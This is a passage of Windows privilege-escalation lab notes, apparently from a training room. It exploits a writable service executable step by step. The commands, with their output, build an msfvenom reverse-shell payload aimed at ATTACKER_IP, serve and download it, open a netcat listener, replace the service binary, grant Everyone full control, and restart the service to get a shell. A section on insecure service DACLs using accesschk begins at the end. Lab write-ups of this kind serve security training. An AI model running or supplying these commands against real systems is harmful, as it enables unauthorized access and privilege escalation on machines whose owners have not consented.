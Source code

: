 * BUILTIN\Users group has (AD) (create subdirectories) and (WD) (create files) privileges on folder.

**1. Create msfvenom exe-service payload.**

msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=ATTACKER\_IP LPORT=4446 -f exe-service -o rev-svc2.exe

**2. Serve payload through python webserver.**

python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

**3. Pull payload from PowerShell.**

wget http://ATTACKER\_IP:8000/rev-svc2.exe -O rev-svc2.exe

**4. Start listener to receive reverse shell.**

nc -lvnp 4446

Connection received on 10.10.175.90 50650

**5. Move payload to c:\MyPrograms\Disk.exe.**

move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

**6. Grant Everyone full permission on file.**

* Ensures file can be executed by the service.

icacls C:\MyPrograms\Disk.exe /grant Everyone:F

**7. Restart service to execute payload.**

sc.exe stop "disk sorter enterprise"

sc.exe start "disk sorter enterprise"

**8. Reverse shell with "svcusr2" privileges received.**

Microsoft Windows \[Version 10.0.17763.1821]

(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

wprivesc1\svcusr2

### **Insecure Service Permissions** <a href="#gfuwhhrzuh92" id="gfuwhhrzuh92"></a>

* Service DACL (not service's executable DACL) allows reconfiguration of the service.
* Point service at any executable and run it with any account.
* [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from Sysinternals suite used to check for service DACL.

#### **"thmservice" DACL Use Case.** <a href="#id-1pugfn5lzztn" id="id-1pugfn5lzztn"></a>

accesschk64.exe -qlc thmservice
